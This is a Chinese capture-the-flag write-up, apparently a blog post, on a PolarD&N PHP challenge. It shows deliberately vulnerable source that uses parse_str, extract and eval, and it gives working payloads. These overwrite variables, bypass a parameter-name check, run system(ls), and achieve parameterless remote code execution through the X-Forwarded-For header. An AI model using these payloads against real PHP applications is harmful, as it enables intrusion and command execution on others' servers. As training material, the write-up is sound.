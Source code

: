 # PHP是世界上最好的语言-PolarD&N XXF无参数RCE QUERY_STRING 特性

这个靶场我之前看到过打广告，而且感觉比较新 来坐坐

```php
 <?php
//flag in $flag
highlight_file(__FILE__);
include("flag.php");
$c=$_POST['sys'];
$key1 = 0;
$key2 = 0;
if(isset($_GET['flag1']) || isset($_GET['flag2']) || isset($_POST['flag1']) || isset($_POST['flag2'])) {
    die("nonononono");
}
@parse_str($_SERVER['QUERY_STRING']);
extract($_POST);
if($flag1 == '8gen1' && $flag2 == '8gen1') {
    if(isset($_POST['504_SYS.COM'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\?/", $c)){
         eval("$c");  
 
    }
}
}
?> 
```

这里还是

## @parse_str($_SERVER['QUERY_STRING']);

这里存在特性

```cobol
?_POST[flag]=11111
 
通过extract($_POST);
 
 
会变为
 
 
$flag = 11111
```

所以第一个flag我们直接绕过了

```cobol
GET 传递?_POST[flag1]=8gen1&_POST[flag2]=8gen1
```

然后需要绕过

```php
    if(isset($_POST['504_SYS.COM'])){ 
```

通过 _ 就可以思考到非法参数了

```cobol
504[SYS.COM=1
```

然后我们就可以执行命令了

```perl
sys=system(ls);
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/b6bd4d4ce9f73841c958f466e5085bb0.png" alt="" style="max-height:473px; box-sizing:content-box;" />


payload

```cobol
?_POST[flag1]=8gen1&_POST[flag2]=8gen1
 
 
504[SYS.COM=1&sys=system(ls);
```

但是我们无法直接获取到flag 所以需要无参数rce因为过滤了 引号

 [无参数RCE绕过的详细总结（六种方法）_ctf rce绕过-CSDN博客](https://blog.csdn.net/2301_76690905/article/details/133808536) 

这里的方法都可以使用

这里使用一个XXF执行命令的

首先我们逆向打印请求头

```cobol
504[SYS.COM=1&sys=print_r(array_reverse(getallheaders()));
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/8e5ea32f283b93fc1d0466daf9d297a9.png" alt="" style="max-height:495px; box-sizing:content-box;" />


然后我们通过 pos 和eval 执行命令

pos 会输出当前数组的值 第一个是 xxf 就是ip 然后执行命令 我们将命令拼接即可



<img src="https://i-blog.csdnimg.cn/blog_migrate/b82b403ec0252e18c5bb7059ae6260b2.png" alt="" style="max-height:176px; box-sizing:content-box;" />


这里还需要XXF后面的内容注释掉 不然无法执行